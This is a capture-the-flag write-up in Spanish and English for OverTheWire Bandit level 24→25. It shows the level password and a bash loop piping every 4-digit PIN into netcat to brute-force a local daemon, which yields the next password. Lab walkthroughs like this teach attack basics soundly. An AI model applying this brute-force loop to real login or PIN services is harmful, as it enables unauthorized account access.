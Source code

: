 # Bandit Level 24 → Level 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel
```
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Solución
```bash
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```
## Notas adicionales
Primero nos conectamos al puerto 30002 con netcat, nos pide la contraseña de nivel anterior y una clave de 4 dígitos, por ello necesitamos un script, que genere esta clave, lo hacemos con un for desde el 0000 hasta 9999, luego le decimos que ingrese en cada for la contraseña junto con cada clave, se conecta con nc e ignora todos aquellos mensajes que empiezan con Wrong, a través de grep -v.
## Referencias
